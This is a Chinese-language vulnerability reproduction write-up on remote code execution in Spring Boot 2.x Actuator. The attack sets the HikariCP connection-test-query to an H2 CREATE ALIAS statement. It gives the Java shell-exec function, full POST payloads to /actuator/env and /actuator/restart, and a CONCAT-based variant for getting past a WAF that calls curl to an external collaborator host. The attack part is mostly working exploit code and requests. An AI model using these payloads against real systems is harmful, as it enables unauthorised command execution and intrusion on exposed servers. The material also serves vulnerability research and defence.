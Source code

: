 # Spring Boot Actuator hikari配置不当导致的远程命令执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3133](https://www.zhihuifly.com/t/topic/3133)

# Spring Boot Actuator hikari配置不当导致的远程命令执行漏洞

## 一、漏洞简介

Spring Boot 2.x默认使用的HikariCP数据库连接池提供了一个可以RCE的变量。这个变量就是`spring.datasource.hikari.connection-test-query`。这个变量与HikariCP中的`connectionTestQuery`配置相匹配。根据文档，此配置定义的是在从池中给出一个连接之前被执行的query，它的作用是验证数据库连接是否处于活动状态。简言之，无论何时一个恶心的数据库连接被建立时，`spring.datasource.hikari.connection-test-query`的值将会被作为一个SQL语句执行。然后利用SQL语句中的用户自定义函数，进行RCE。

## 二、漏洞影响

Spring Boot 2.x

## 三、复现过程

漏洞环境

> https://github.com/ianxtianxt/springboot_actuator

### H2 CREATE ALIAS 命令

H2数据库引擎是一个流行的java开发数据库，非常容易与Spring Boot集成，仅仅需要如下的一个dependency。

```
<dependency>
    <groupId>com.h2database</groupId>
    <artifactId>h2</artifactId>
    <scope>runtime</scope>
</dependency> 
```

在H2中有一个非常重要的命令，与PostgreSQL中的用户定义函数相似，可以用CREATE ALIAS创建一个java函数然后调用它，示例如下:

```
CREATE ALIAS GET_SYSTEM_PROPERTY FOR "java.lang.System.getProperty";
CALL GET_SYSTEM_PROPERTY('java.class.path'); 
```

仿照这个，创建命令执行的java函数可以如下:

```
String shellexec(String cmd) throws java.io.IOException { 
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());
    if (s.hasNext()) {
        return s.next();
    } throw new IllegalArgumentException(); 
} 
```

那么RCE所需的SQL语句即:

```
CREATE ALIAS EXEC AS "String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}";
CALL EXEC('/Applications/Calculator.app/Contents/MacOS/Calculator'); 
```

与1.x类似，在端点`/actuator/env`通过POST方法进行环境变量的赋值。payload为

```
POST /actuator/env HTTP/1.1

content-type: application/json `{“name”:“spring.datasource.hikari.connection-test-query”,“value”:“CREATE ALIAS EXEC AS ‘String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}’; CALL EXEC(’/Applications/Calculator.app/Contents/MacOS/Calculator’);”}` 
```

执行RCE的SQL语句已经构建好，接下来就是触发一个新的数据库连接，通过向端点`/actuator/restart`发送POST请求，即可重启应用出发新的数据库连接。请求如下

```
POST /actuator/restart HTTP/1.1

content-type: application/json `{}` 
```

命令执行的结果:

![image](img/1c996ac7dd7e21736b1f8fbfdb2f54ce.png)

### 针对WAFs

在这点上，可能会遇到常见的WAF过滤器，特别是对exec的过滤。然而，像这样的一个payload可以很容易地使用多种字符串拼接技术来绕过。比如使用CONCAT或HEXTORAW命令。上面的payload可写成

```
CREATE ALIAS EXEC AS CONCAT('String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }');
CALL EXEC('curl  http://x.burpcollaborator.net'); 
```

### 有限的执行上下文的命令注入

`spring.datasource.hikari.connection-test-query`是用来验证连接到数据库的连接是否存活。如果语句失败，应用会相信数据库无法连接并不再返回其他的数据库查询。攻击者可利用此来获得一个blind RCE。

## 参考链接

> https://xz.aliyun.com/t/7480#toc-3